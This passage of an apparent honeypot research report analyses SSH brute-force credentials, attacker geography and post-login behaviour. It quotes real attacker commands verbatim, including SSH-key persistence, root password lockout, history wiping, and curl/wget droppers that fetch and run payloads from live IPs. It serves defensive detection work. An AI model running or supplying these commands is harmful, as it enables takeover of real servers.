| 17 | `guest` | 690 | generic |
| 18 | `ubnt` | 673 | **Ubiquiti default** |
| 19 | `345gs5662d34` | 662 | **see callout** |
| 20 | `cloud` | 504 | generic |
| 21 | `steam` | 496 | game server |
| 22 | `centos` | 457 | cloud default |
| 23 | `testuser` | 431 | generic |
| 24 | `curl` | 411 | anomalous |
| 25 | `mysql` | 400 | service |
| 26 | `orangepi` | 397 | **SBC default** |
| 27 | `operator` | 391 | generic |
| 28 | `cat` | 362 | anomalous |
| 29 | `pi` | 355 | **Raspberry Pi default** |
| 30 | `jenkins` | 355 | CI/CD |

Three observations.

**The domain name is used as a dictionary.** `remi-ziolkowski` and `remiziolkowski` total 2,437 attempts. Nobody guessed that at random: bots derive candidate usernames from the target's domain name or reverse DNS. If your server is called `mail.acme-corp.com`, expect to see `acme`, `acmecorp`, and `acme-corp` in your logs.

**IoT default credentials are still in rotation.** `ubnt` (Ubiquiti), `pi` (Raspberry Pi OS), `orangepi`, `steam`: these are accounts that only exist on consumer devices or single-board computers. Botnets draw no distinction between a VPS and a surveillance camera — they try everything everywhere.

> [!TIP]
> **The `345gs5662d34` signature.** This username appears 662 times, paired with the password `3245gs5662d34`. It is the credential pair hardcoded into the firmware of certain Polycom/HiSilicon DVRs, popularized by **Mirai** variants. Its presence in your logs is a 100% actionable signature: no legitimate system uses that account. It makes an excellent low-false-positive detection rule.

**The `curl` and `cat` usernames** (411 and 362 attempts) are most likely parsing bugs in the attack tooling — a mangled command line where the binary name ends up in the username field. Even attackers have bugs.

---

## Most attempted passwords

77,173 distinct passwords were tried. Here is the top of the list.



| # | Password | Attempts | Type |
|---:|---|---:|---|
| 1 | `123456` | 9,510 | classic |
| 2 | `admin` | 4,314 | same as username |
| 3 | `password` | 3,532 | classic |
| 4 | `123` | 3,442 | classic |
| 5 | `1234` | 2,950 | classic |
| 6 | `12345678` | 2,137 | classic |
| 7 | `12345` | 1,476 | classic |
| 8 | `root` | 1,260 | same as username |
| 9 | `1` | 1,116 | classic |
| 10 | `test` | 981 | classic |
| 11 | `111111` | 941 | classic |
| 12 | `P@ssw0rd` | 911 | **"complex" by AD policy standards** |
| 13 | `fjbdfdjkdsfs541544AA@@` | 887 | **botnet signature** |
| 14 | `admin123` | 754 | classic |
| 15 | `123456789` | 704 | classic |
| 16 | `user` | 676 | same as username |
| 17 | `3245gs5662d34` | 676 | **Mirai / DVR** |
| 18 | `345gs5662d34` | 665 | **Mirai / DVR** |
| 19 | `orangepi` | 607 | vendor default |
| 20 | `Aa123456` | 587 | classic |
| 21 | `fjbdfdjkdsfs541544@@` | 515 | **botnet signature** |
| 22 | `123123` | 488 | classic |
| 23 | `qwerty` | 474 | classic |
| 24 | `welltech12` | 469 | **vendor default** |
| 25 | `abc123` | 457 | classic |
| 26 | `Wangsu@2017` | 424 | **CDN vendor default** |
| 27 | `alpine` | 412 | distro default |
| 28 | `Admin123` | 412 | classic |
| 29 | `test123` | 409 | classic |

A few lessons.

**`P@ssw0rd` sits at number 12, with 911 attempts.** It is the archetypal password that satisfies an Active Directory complexity policy: uppercase, lowercase, digit, special character, eight characters. It has been in every wordlist for fifteen years. A complexity policy does not produce strong passwords; it produces *predictable* ones.

**The weird strings are signatures.** `fjbdfdjkdsfs541544AA@@` and its variant without the `AA` are not guesses: they are keyboard mashing hardcoded into a botnet family. As with `345gs5662d34`, their appearance in logs is an indicator of compromise in its own right.

**Vendor defaults die hard.** `welltech12`, `Wangsu@2017` (Wangsu Science & Technology, a major Chinese CDN), `orangepi`, `alpine`: these are factory passwords. Their presence in wordlists means somebody, somewhere, extracted a firmware image and published the credentials.

### What actually works

Across the 1,656 successful authentications, the breakdown of the passwords that got in:

| Password | Successes |
|---|---:|
| `123456` | 883 |
| `password` | 295 |
| `admin` | 114 |
| `root` | 80 |
| `alpine` | 70 |
| `ubuntu` | 55 |
| `toor` | 46 |
| `raspberry` | 44 |
| `debian` | 35 |
| `changeme` | 34 |

And the accounts they came in through: `root` (457), `admin` (49), `ubuntu` (46), `pi` (30), `debian` (23).

*(Methodological note: these figures reflect the password list the honeypot assigns. They do not measure the relative strength of passwords in the wild, but they do show which ones get tested first — `123456` leads because it leads every wordlist.)*

---

## Where they come from

Geolocation was performed locally using MaxMind's **GeoLite2-Country** database. No IP address was submitted to any third-party service.

> [!NOTE]
> IP geolocation tells you where the machine emitting the traffic sits, **not** where the operator sits. A large share of these addresses are rented servers or compromised machines. These figures describe infrastructure, not attribution.

### By attempt volume (529,765 geolocated attempts, 138 countries)



| # | Country | Attempts | % |
|---:|---|---:|---:|
| 1 | 🇨🇳 China | 130,328 | 24.6% |
| 2 | 🇩🇪 Germany | 66,502 | 12.6% |
| 3 | 🇭🇰 Hong Kong | 42,818 | 8.1% |
| 4 | 🇧🇷 Brazil | 40,496 | 7.6% |
| 5 | 🇸🇬 Singapore | 36,486 | 6.9% |
| 6 | 🇷🇺 Russia | 31,135 | 5.9% |
| 7 | 🇮🇩 Indonesia | 31,085 | 5.9% |
| 8 | 🇺🇸 United States | 25,980 | 4.9% |
| 9 | 🇫🇷 France | 18,883 | 3.6% |
| 10 | 🇧🇬 Bulgaria | 15,543 | 2.9% |
| 11 | 🇳🇱 Netherlands | 12,702 | 2.4% |
| 12 | 🇰🇷 South Korea | 10,911 | 2.1% |
| 13 | 🇮🇳 India | 7,360 | 1.4% |
| 14 | 🇺🇦 Ukraine | 6,861 | 1.3% |
| 15 | 🇻🇳 Vietnam | 5,396 | 1.0% |

Germany in second place and Bulgaria in tenth obviously do not reflect local criminal activity: they are two strongholds of cheap European hosting. A brute-forcer who wants throughput rents a server at a discount provider, not a residential connection.

### By unique IP address count (6,676 IPs, 138 countries)

| # | Country | Unique IPs | % |
|---:|---|---:|---:|
| 1 | 🇨🇳 China | 1,219 | 18.3% |
| 2 | 🇺🇸 United States | 625 | 9.4% |
| 3 | 🇰🇷 South Korea | 494 | 7.4% |
| 4 | 🇮🇳 India | 410 | 6.1% |
| 5 | 🇮🇩 Indonesia | 301 | 4.5% |
| 6 | 🇧🇷 Brazil | 283 | 4.2% |
| 7 | 🇭🇰 Hong Kong | 240 | 3.6% |
| 8 | 🇷🇺 Russia | 213 | 3.2% |
| 9 | 🇫🇷 France | 201 | 3.0% |
| 10 | 🇻🇳 Vietnam | 200 | 3.0% |

Comparing this table with the previous one is instructive. **Germany drops from 2nd to 11th place**: few addresses, but enormous volume per address — servers dedicated to brute-forcing. Conversely, **South Korea and India show many IPs with few attempts each**: the signature of a fleet of compromised devices, not rented attack infrastructure.

### By shell sessions obtained (12,939 sessions, 71 countries)

The ranking changes completely once you look at who actually gets in:

| # | Country | Sessions | % |
|---:|---|---:|---:|
| 1 | 🇺🇸 United States | 1,857 | 14.4% |
| 2 | 🇮🇩 Indonesia | 1,101 | 8.5% |
| 3 | 🇩🇪 Germany | 826 | 6.4% |
| 4 | 🇭🇰 Hong Kong | 814 | 6.3% |
| 5 | 🇨🇱 Chile | 635 | 4.9% |
| 6 | 🇰🇷 South Korea | 633 | 4.9% |
| 7 | 🇨🇳 China | 524 | 4.0% |
| 8 | 🇻🇳 Vietnam | 503 | 3.9% |
| 9 | 🇮🇳 India | 455 | 3.5% |
| 10 | 🇸🇬 Singapore | 416 | 3.2% |

**China falls from 24.6% of attempts to 4.0% of sessions.** Chinese-hosted infrastructure does blind volume; it is other actors — American, Indonesian, Chilean — who actually exploit the access obtained. That is consistent with a two-tier market: operators who scan and resell access on one side, operators who consume it on the other.

---

## What they type once inside

12,884 sessions contain at least one keystroke. But the vast majority are over in a fraction of a second: the median recording is **261 bytes**, which is the login banner and nothing else.

The most frequently typed command in the entire corpus is `exit`, with **12,864 occurrences**. In other words: *almost every bot connects, confirms the login works, and leaves immediately.* They are only validating the credential, to resell it or add it to a list. Exploitation comes later, and often from a different actor.

The real content lives in the few hundred sessions that go further.

### The reconnaissance block

One specific command sequence recurs across more than 600 sessions, almost always in the same order. It is machine profiling, to decide what to deploy:

| Command | Occurrences | Purpose |
|---|---:|---|
| `cd ~; chattr -ia .ssh; lockr -ia .ssh` | 687 | strip immutability from `.ssh` before rewriting it |
| `whoami` | 670 | confirm we are root |
| `w` | 668 | is an admin logged in right now? |
| `uname -m` | 665 | architecture — which binary to fetch |
| `cat /proc/cpuinfo \| grep name \| wc -l` | 657 | core count |
| `cat /proc/cpuinfo \| grep name \| head -n 1 \| awk '{print $4,$5,$6,$7,$8,$9;}'` | 629 | CPU model |
| `free -m \| grep Mem \| awk '{print $2,$3,$4,$5,$6,$7}'` | 622 | available RAM |
| `ls -lh $(which ls)` | 616 | **honeypot detection** |
| `crontab -l` | 612 | persistence already in place? competitors? |
| `uname -a` | 610 | kernel version |
| `cat /proc/cpuinfo \| grep model \| grep name \| wc -l` | 599 | same, variant |
| `top` | 594 | what's eating CPU — spot a rival miner |
| `lscpu \| grep Model` | 582 | CPU model |
| `df -h \| head -n 2 \| awk 'FNR == 2 {print $2;}'` | 576 | disk space |

It all revolves around a single question: **how much CPU and RAM can I steal here?** This is cryptocurrency mining, or DDoS capacity rental. Target qualification is entirely automated.

> [!TIP]
> **`ls -lh $(which ls)` is honeypot detection.** The attacker checks the size of the `ls` binary. On a real system it is roughly 140 KB. On an emulated-shell honeypot, the command returns an inconsistent value or fails outright. My honeypot survives this because the shell is real: `ls` is a genuine binary in a genuine rootfs. This is exactly the kind of check that justifies the cost of the microVM architecture.

### More sophisticated reconnaissance

A noticeably more careful actor shows up 51 times with a well-written script:

```bash
command -v kill 2>&1 || echo command not found
uptime | grep -ohe 'up .*' | sed 's/,//g' | awk '{ print $2" "$3 }'
lscpu | egrep "Model name:" | cut -d ' ' -f 14-
if command -v lspci &>/dev/null; then
    lspci | egrep VGA | grep NVIDIA | awk '{print $5}' | wc -l
else
    nvidia-smi -q | grep "Product Name" | awk '{print $4,$5,$6,$7,$8,$9,$10,$11}' | wc -l
fi
curl -s --max-time 3 ipinfo.io/org
ip r | grep -Eo '[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}/[0-9]{1,2}'
cat /etc/passwd | grep -v nologin | grep -v false | grep -v sync | grep -v halt | grep -v shutdown | cut -d: -f1
```

Three things set it apart from the crowd:

1. **It hunts for NVIDIA GPUs**, with a fallback to `nvidia-smi` if `lspci` is missing. This is no longer opportunistic CPU mining — this is someone looking for GPU compute, which resells for far more.
2. **It queries `ipinfo.io/org`** to identify the victim's hosting provider. An AWS, OVH, or Hetzner server is not handled like a residential box.
3. **It enumerates the network neighborhood** (`ip r`) and the real human accounts (`/etc/passwd` with system accounts filtered out). That is lateral-movement preparation.

On my honeypot the network calls fail silently — which evidently did not tip off the operator.

### Persistence

**The SSH key.** 674 sessions, from 332 distinct IPs, inject the exact same public key:

```bash
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr" >> .ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~
```

> [!CAUTION]
> **The `mdrfckr` key is one of the best-known indicators of compromise in the Linux world.** It is associated with the **Outlaw** botnet (also known as Dota / Shellbot) and has been circulating unchanged since 2018. If that string shows up in an `authorized_keys` anywhere in your estate, the machine is compromised, full stop. The leading `rm -rf .ssh` **deletes your legitimate keys** — which is also a denial of service against the administrator.

Note the `chattr -ia` beforehand: the operators know some administrators make `authorized_keys` immutable, and they plan for it. `lockr` is a variant found on certain firmwares.

**Changing the root password.** 1,262 sessions, from 310 IPs, change the account password to a random 12-character string:

```bash
echo -e "123456\ngXuV60qK6VQx\ngXuV60qK6VQx" | passwd | bash
echo -e "password\n3Yp7fdZtHwLY\n3Yp7fdZtHwLY" | passwd | bash
echo -e "admin\neVgSCkxXyXXv\neVgSCkxXyXXv" | passwd | bash
```

The first field is the old password — the one they just guessed. This is **locking the victim out**: once the password is changed, neither the legitimate administrator nor competing botnets can come back. Every session uses a different password, which suggests generation on the C2 side with the secret reported back.

Two more sophisticated attempts go through `usermod` with a proper SHA-512 hash, which works on systems where `passwd --stdin` does not exist:

```bash
bash -c "usermod -p \"$(openssl passwd -6 'KenoR3G3@44')\" root 2>&1"
```

### Eliminating the competition

The battlefield is crowded, and botnets actively evict one another:

```bash
rm -rf /tmp/secure.sh; rm -rf /tmp/auth.sh; pkill -9 secure.sh; pkill -9 auth.sh; echo > /etc/hosts.deny; pkill -9 sleep;
pkill -9 multics.x64
killall -9 multics.x64
pkill kswpad
iptables -F
```

`multics.x64` is a mining binary deployed by a rival family. The `echo > /etc/hosts.deny` and `iptables -F` (17 sessions) tear down protections put in place by… the previous botnet. A compromised machine is a contested resource.

### Covering tracks

19 sessions from 16 IPs try to erase their passage:

```bash
unset HISTFILE; history -c; rm -f ~/.bash_history ~/.zsh_history ~/.mysql_history ~/.sqlite_history
set +o history
history | tail -5
```

That is very little — 0.15% of sessions. The conclusion is clear: **almost no attacker makes any anti-forensic effort at all.** They bet on nobody ever looking at the logs. The operational corollary is encouraging: if you *do* look at your logs, you will see them.

One session stands out for its discretion, with a `chmod` on a suggestively named PAM `.so` and an SSH service restart:

```bash
chmod 644 /usr/lib/x86_64-linux-gnu/security/pam_verify_auth.so 2>/dev/null
systemctl restart ssh 2>/dev/null || systemctl restart sshd 2>/dev/null
```

A malicious PAM module intercepts authentication upstream of everything else: that is persistence which survives a password change and a key rotation.

### Direct binary transfers

19 sessions, from 18 IPs, push an **ELF directly through the terminal stream**, without `wget` or `curl`. You can see the `\x7fELF` header appear raw in the recording. The largest session in the corpus is **47 MB** on its own.

It is a clever adaptation: on a hardened machine with no `wget`, no `curl`, and egress filtering, the SSH channel itself is still open. One session uses the SCP protocol (`scp -t /usr/.work/`); the rest go straight through.

> [!WARNING]
> Blocking `wget` and `curl` is not enough to prevent payload delivery. The administration channel is also a transfer channel.

---

## Identified campaigns



**Outlaw is permanent.** From 21 May to 21 September without interruption, 332 distinct IPs, always the same key and the same recon block. It is the constant background of the internet.

**`kswpad`: 40 sessions, a single IP.** One persistent operator who kept coming back for four months. Because the honeypot preserves their qcow2 overlay, they found "their" machine again on every visit.

**The September wave.** The `zed`+`perl` and `bo.sh` campaigns only appear at the very end of the window (15–20 September), each from 5 distinct IPs. The style is Outlaw — the `zed` payload is a Perl IRC bot script — but with new infrastructure and a cleaner delivery method.

---

## Payloads and their URLs

> [!CAUTION]
> **The URLs below are live indicators of compromise.** They are published to enable detection and blocking. **Do not visit them, do not download them, do not execute them.** None of these files were downloaded or executed during this study: the microVM has no network access, which makes execution physically impossible.

24 distinct hosts were contacted. Here is the full inventory, with geolocation of the distribution servers.

### The "kswpad" family — multi-architecture

The most structured dropper, with one binary per architecture and persistence in `/etc`:

```bash
cd /tmp;rm -f amd64;wget -t 1 http://195.177.94.72:3594/b/amd64
cd /tmp;rm -f kal64;wget -t 1 http://195.177.94.72:3594/b/kal64
cd /etc;rm -f kswpad;wget -t 1 http://195.177.94.72:3594/b/kswpad
chmod 777 /tmp/amd64
chmod 777 /tmp/kal64
chmod 777 /etc/kswpad
pkill kswpad
```

| Host | Country | Ports | Paths |
|---|---|---|---|
| `195.177.94.72` | 🇫🇷 France | 3594, 26346 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |
| `194.59.31.57` | 🇫🇷 France | 35415, 62123 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |
| `194.59.31.5` | 🇫🇷 France | 314 | `/b/amd64`, `/b/kal64`, `/b/kswpad` |
| `151.241.154.172` | 🇺🇸 United States | 32014 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |

Dropping into `/etc` rather than `/tmp` is deliberate: `/tmp` is often mounted `noexec` and wiped on reboot, `/etc` never is. The port rotation (3594 → 26346, 35415 → 62123) is basic block evasion.

### The "/linux" family — one binary, many hosts

The same URL pattern across 13 different hosts, mostly Alibaba Cloud addresses:

| Host | Country | URL |
|---|---|---|
| `120.77.237.174` | 🇨🇳 China | `http://120.77.237.174:7494/linux` |
| `47.104.162.41` | 🇨🇳 China | `http://47.104.162.41:7100/linux` |
| `47.86.176.209` | 🇭🇰 Hong Kong | `http://47.86.176.209:60133/linux` |
| `81.71.147.73` | 🇨🇳 China | `http://81.71.147.73:8064/linux` |
| `220.180.99.71` | 🇨🇳 China | `http://220.180.99.71:60105/linux` |
| `60.205.248.70` | 🇨🇳 China | `http://60.205.248.70:6352/linux` |
| `112.124.33.87` | 🇨🇳 China | `http://112.124.33.87:60147/linux` |
| `42.193.141.153` | 🇨🇳 China | `http://42.193.141.153:9210/linux` |
| `158.101.242.199` | 🇸🇦 Saudi Arabia | `http://158.101.242.199:60105/linux` |
| `47.108.211.13` | 🇨🇳 China | `http://47.108.211.13:9655/linux` |
| `114.55.63.70` | 🇨🇳 China | `http://114.55.63.70:8989/linux` |
| `47.95.111.18` | 🇨🇳 China | `http://47.95.111.18:8419/linux` |
| `123.57.51.183` | 🇨🇳 China | `http://123.57.51.183:6707/linux` |
| `120.26.141.203` | 🇨🇳 China | `http://120.26.141.203:8808/linux` |

Each host uses a different high port. The infrastructure is disposable: each IP serves only a handful of sessions before being replaced.

### The "zed" family — Perl IRC bot

```bash
nohup sh -c '(timeout 60 curl -sS --max-time 55 http://66.116.243.130/bo.sh 2>/dev/null | bash) >/dev/null 2>&1 </dev/null' >/dev/null 2>&1 &
curl -sS --max-time 5 http://66.116.243.130/zed 2>/dev/null | perl &
timeout 60 curl -sS http://154.70.152.216/zed | perl >/dev/null 2>&1 &
```

| Host | Country | URLs |
|---|---|---|
| `66.116.243.130` | 🇮🇳 India | `/bo.sh`, `/zed` |
| `154.70.152.216` | 🇿🇦 South Africa | `/zed` |

The `curl | perl` pipe is notable: **nothing is written to disk**. The script runs straight from memory, which makes it invisible to file-scanning antivirus. The `nohup … </dev/null &` with triple redirection guarantees survival after the SSH session closes.

### Others

| Host | Country | URL | Note |
|---|---|---|---|
| `45.153.34.212` | 🇳🇱 Netherlands | `45.153.34.212/fakepika`, `:8181/.bia`, `:8181/.dcplm` | Mirai variant; dotfiles to hide from a plain `ls` |
| `64.89.161.144` | 🇺🇸 United States | `:28816/CZRmrtxnrNONBXhwfFeqjNfBrliNaShG` | randomized path — URL signature evasion |
| `31.56.209.39` | 🇳🇱 Netherlands | `/wget.sh`, `/curl.sh` | dual dropper depending on available tooling |
| `59.110.9.189` | 🇨🇳 China | `:9684/linux` | `/linux` family |

The full `fakepika` chain is a textbook "download, run, delete" pattern:

```bash
wget 45.153.34.212/fakepika || curl -O 45.153.34.212/fakepika ; chmod +x fakepika ; ./fakepika ; rm -rf fakepika ; clear ; history -c ; rm -rf ~/.ash_history
```

The `wget || curl` covers both cases, and `rm -rf ~/.ash_history` targets BusyBox — so, IoT targets.

And the `31.56.209.39` dropper, which clears out the competition before installing itself:

```bash
echo "history -cw; cd /tmp; rm -rf *.sh; rm -rf bizy*; rm -rf odin*; wget http://31.56.209.39/wget.sh; sh wget.sh; curl http://31.56.209.39/curl.sh -o curl.sh; sh curl.sh | sh" | sh
```

`bizy*` and `odin*` are rival families.

### Geographic summary of the distribution infrastructure



Three French hosts distribute the `kswpad` family. A useful reminder: malicious infrastructure is hosted everywhere, including at reputable European providers. Geo-blocking is a very weak security control.

---

## Takeaways

**On what attackers actually do.**

1. **Password brute-forcing was the only vector observed.** Zero vulnerability exploitation across 530,860 attempts. SSH's real attack surface is not the protocol, it is your passwords.
2. **The overwhelming majority of access is not exploited immediately.** 12,864 sessions end with `exit` and nothing else. The market is segmented: some validate credentials, others buy and exploit them.
3. **The goal is almost always resource theft.** The recon block is entirely focused on CPU, RAM, and disk. Nobody came looking for my data.
4. **Competition between botnets is fierce.** `pkill`, `iptables -F`, deleting rival files, changing the root password to lock everyone else out.
5. **Anti-forensics is essentially nonexistent.** 0.15% of sessions cover their tracks. Your logs hold the truth, if you read them.

**On what to do about it.**

- **Disable password authentication.** `PasswordAuthentication no` and `PubkeyAuthentication yes`. That neutralizes 100% of what I observed over five months.
- **Forbid direct root login.** `PermitRootLogin no` — `root` accounts for 78.6% of attempts.
- **Do not rely on changing the port.** 3,600 attempts per day on port 2222.
- **Alert on the obvious signatures.** The `mdrfckr` key in an `authorized_keys`, the `345gs5662d34` username, a `libssh` client banner: three detection rules with virtually no false positives.
- **Monitor `authorized_keys` for integrity**, not just permissions. The attack starts with `rm -rf .ssh`, and a plain `chattr +i` is already anticipated.
- **Blocking `wget` and `curl` is not enough.** Payloads also travel straight down the SSH channel.

**On building a honeypot.**

The microVM architecture costs more than an emulated shell, both in development and in resources. But it passes the attackers' own detection checks — `ls -lh $(which ls)` is the proof — and it lets you sleep at night, because the absence of a network in the VM is not a filtering rule that can be bypassed, it is the absence of hardware.

And per-attacker persistence via qcow2 overlays is what gives this data its depth: being able to watch the same `kswpad` operator return to *their* machine over four months is something a stateless honeypot will never produce.

---

## Methodology and ethics

- **Data**: the honeypot's SQLite database, 2026-04-28 to 2026-09-21. Commands were reconstructed from the input (`"i"`) streams of the asciinema v2 recordings, not from shell history — so nothing escapes via `history -c`.
- **Geolocation**: MaxMind GeoLite2-Country database, queried **locally**. No IP address was sent to any third-party service.
- **Payloads**: no binary or script was downloaded, dynamically analyzed, or executed. The microVM has no network interface; every download attempt failed at the socket layer. The published URLs come exclusively from reading keystrokes.
- **Privacy**: the IP addresses published are those of machines that actively attacked a third-party system, and those of malware distribution infrastructure. They are released as indicators of compromise.
- **Attribution**: none. IP geolocation describes the location of infrastructure, not the identity or nationality of an operator.
